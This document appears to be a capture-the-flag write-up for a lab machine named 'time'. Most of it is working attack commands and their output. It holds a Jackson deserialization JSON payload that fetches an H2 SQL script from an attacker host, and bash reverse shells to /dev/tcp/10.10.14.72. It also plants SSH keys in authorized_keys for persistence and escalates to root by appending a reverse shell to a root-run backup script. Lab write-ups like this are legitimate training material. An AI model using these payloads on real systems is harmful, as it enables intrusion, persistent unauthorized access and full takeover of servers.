




# Reconnaissance

## Nmap

```bash
nmap -n -sC -sV -oA scans/10-initial-time 10.10.10.214 -v
# Nmap 7.80 scan initiated Sat Apr 10 16:34:42 2021 as: nmap -n -sC -sV -oA scans/10-initial-time -v 10.10.10.214
Nmap scan report for 10.10.10.214
Host is up (0.057s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 10 16:34:52 2021 -- 1 IP address (1 host up) scanned in 10.29 seconds

```


# Enumeration

## TCP 80 - Website

### Web Pages Overview


### Gobuster

```bash
gobuster dir -u http://10.10.10.214 -x php,txt,bak -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -o scans/15-gobuster-time-M-80
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.214
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
2021/04/10 16:36:17 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.10.214/images/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.214/js/]    
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.214/css/]   
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.214/javascript/]
/index.php            (Status: 200) [Size: 3813]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.214/fonts/]
```

### Testing Inputs

Payload 1: valid json format

```json
{"test": "test"}
```


Payload 2: invalid json format

```json
{"test:"notvalid}
```




```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

### Vulnerabilities

https://github.com/jas502n/CVE-2019-12384/blob/master/README.md

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

# Foothold

## Shell as pericles

### Exploit PoC


```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOExcepti>
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(comm>
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &> /dev/tcp/10.10.14.72/9001 0>&1')
```

JSON Payload

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.72/inject.sql'"}]
```




```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.214 - - [10/Apr/2021 16:55:21] "GET /inject.sql HTTP/1.1" 200 -
```

Listener

```
rlwrap nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.10.214] 53546
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ which python3
which python3
/usr/bin/python3
pericles@time:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



```
pericles@time:/home/pericles$ ls -l; cut -c15- user.txt
ls -l; cut -c15- user.txt
total 8
drwxr-xr-x 3 pericles pericles 4096 Oct  2  2020 snap
-r-------- 1 pericles pericles   33 Apr  9 05:04 user.txt
733c81e5f5cd93a92a
```


### Persistent shell

```
pericles@time:/home/pericles/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/5cD5Ru0JkA5p049yhtq3yCJpL8Rc6VtHDchlt/7Q82v3EXUtJ1tI4JJIxM/01TTeDBObXWOoHfDjWKhskFQj0RG00FvaJq2KkopoXdvsnCH7pxjBFzQIVkTmf1div3SCaao0hokC+TDzjMX8y2rLN6QRvWXeCKIBvvtrqwFjShh39+hD/AWqRJEdJ+EK2PHOTjc/kdU7h8Ak5MwqbyVuJyfWHlJCrXQku5UyrOl101bbn1R1i2ersLC+17jWPAJE5TqRQm4xlk+9oItlUh6Bb+CkuizCXo1BNlQnxieC+T3mcVXV4MD6cYi3k3wufrrXKASz9thZCIqcXyx2T4nJZfTQK8/IFbHsIMv/dro9XyUAK4XMnPAn7IS5O9ZpYhQUi7urWKcvmXX9USYp1yqdE1mKkelBjtuM/nyF75cGrCtjgpvq0egY+OmO1LOhZm+vB0NYd9hlrAbuY9Ww59q4FFNY4gMC3bmS/ikNkVR+nNgtdzAqZypu13V71rU8CM8= root@iamf' > authorized_keys
<gtdzAqZypu13V71rU8CM8= root@iamf' > authorized_keys
```

```
ssh -i pericles pericles@10.10.10.214
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 10 Apr 2021 09:04:08 PM UTC

  System load:             0.51
  Usage of /:              24.0% of 27.43GB
  Memory usage:            26%
  Swap usage:              0%
  Processes:               236
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.214
  IPv6 address for ens160: dead:beef::250:56ff:feb9:e53d


168 updates can be installed immediately.
47 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Oct 23 09:19:19 2020 from 10.10.14.5
pericles@time:~$
```

## Enumeration

Local accounts enum

```bash
pericles@time:/home/pericles$ cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
pericles:x:1000:1000:Pericles:/home/pericles:/bin/bash
```

Finding files

```
pericles@time:~$ find / -type f -user pericles 2>/dev/null |grep -v 'proc\|sys'
/usr/bin/timer_backup.sh
/dev/shm/payloadds9LXy
/home/pericles/.gnupg/trustdb.gpg
/home/pericles/.gnupg/pubring.kbx
/home/pericles/.bashrc
/home/pericles/.bash_logout
/home/pericles/user.txt
/home/pericles/.ssh/authorized_keys
/home/pericles/.profile
/home/pericles/snap/lxd/17886/.config/lxc/config.yml
/home/pericles/snap/lxd/17936/.config/lxc/config.yml
/home/pericles/.cache/motd.legal-displayed
/opt/json_project/parse.rb
/opt/json_project/classpath/h2-1.4.199.jar
/opt/json_project/classpath/jackson-databind-2.9.8.jar
/opt/json_project/classpath/logback-core-1.3.0-alpha5.jar
/opt/json_project/classpath/jackson-core-2.9.8.jar
/opt/json_project/classpath/jackson-annotations-2.9.8.jar
```

```
pericles@time:~$ cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
pericles@time:~$ ls -l /usr/bin/timer_backup.sh 
-rwxrw-rw- 1 pericles pericles 88 Apr 10 21:05 /usr/bin/timer_backup.sh
pericles@time:~$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

```
pericles@time:~$ find / -type f -name timer_backup* -ls 2>/dev/null
   795750      4 -rw-r--r--   1 root     root          214 Oct 23 06:46 /etc/systemd/system/timer_backup.timer
   787186      4 -rw-r--r--   1 root     root          159 Oct 23 05:59 /etc/systemd/system/timer_backup.service
  1317302      4 -rwxrw-rw-   1 pericles pericles       88 Apr 10 21:10 /usr/bin/timer_backup.sh
```

```bash
# pericles@time:~$ cat /etc/systemd/system/timer_backup.timer 
[Unit]
Description=Backup of the website
Requires=timer_backup.service

[Timer]
Unit=timer_backup.service
#OnBootSec=10s
#OnUnitActiveSec=10s
OnUnitInactiveSec=10s
AccuracySec=1ms

[Install]
WantedBy=timers.target
# pericles@time:~$ cat /etc/systemd/system/timer_backup.service 
[Unit]
Description=Calls website backup
Wants=timer_backup.timer
WantedBy=multi-user.target

[Service]
ExecStart=/usr/bin/systemctl restart web_backup.service
# pericles@time:~$ cat /etc/systemd/system/web_backup.service
[Unit]
Description=Creates backups of the website

[Service]
ExecStart=/bin/bash /usr/bin/timer_backup.sh
```

# Privilege Escalation

### Shell as root

```bash
pericles@time:~$ echo 'bash -i >& /dev/tcp/10.10.14.72/9002 0>&1' >> /usr/bin/timer_backup.sh 
pericles@time:~$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
bash -i >& /dev/tcp/10.10.14.72/9002 0>&1
pericles@time:~$
```


```
$ rlwrap nc -nvlp 9002
listening on [any] 9002 ...

connect to [10.10.14.72] from (UNKNOWN) [10.10.10.214] 57648
bash: cannot set terminal process group (411032): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# 
root@time:/# exit
```




```
rlwrap nc -nvlp 9002
listening on [any] 9002 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.10.214] 57658
bash: cannot set terminal process group (411494): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/5cD5Ru0JkA5p049yhtq3yCJpL8Rc6VtHDchlt/7Q82v3EXUtJ1tI4JJIxM/01TTeDBObXWOoHfDjWKhskFQj0RG00FvaJq2KkopoXdvsnCH7pxjBFzQIVkTmf1div3SCaao0hokC+TDzjMX8y2rLN6QRvWXeCKIBvvtrqwFjShh39+hD/AWqRJEdJ+EK2PHOTjc/kdU7h8Ak5MwqbyVuJyfWHlJCrXQku5UyrOl101bbn1R1i2ersLC+17jWPAJE5TqRQm4xlk+9oItlUh6Bb+CkuizCXo1BNlQnxieC+T3mcVXV4MD6cYi3k3wufrrXKASz9thZCIqcXyx2T4nJZfTQK8/IFbHsIMv/dro9XyUAK4XMnPAn7IS5O9ZpYhQUi7urWKcvmXX9USYp1yqdE1mKkelBjtuM/nyF75cGrCtjgpvq0egY+OmO1LOhZm+vB0NYd9hlrAbuY9Ww59q4FFNY4gMC3bmS/ikNkVR+nNgtdzAqZypu13V71rU8CM8= root@iamf' > /root/.ssh/authorized_keys
<3V71rU8CM8= root@iamf' > /root/.ssh/authorized_keys
```

```
 ssh -i pericles root@10.10.10.214
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 10 Apr 2021 09:22:19 PM UTC

  System load:             1.09
  Usage of /:              24.0% of 27.43GB
  Memory usage:            19%
  Swap usage:              0%
  Processes:               236
  Users logged in:         1
  IPv4 address for ens160: 10.10.10.214
  IPv6 address for ens160: dead:beef::250:56ff:feb9:e53d


168 updates can be installed immediately.
47 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Feb  9 14:41:33 2021
root@time:~#
```

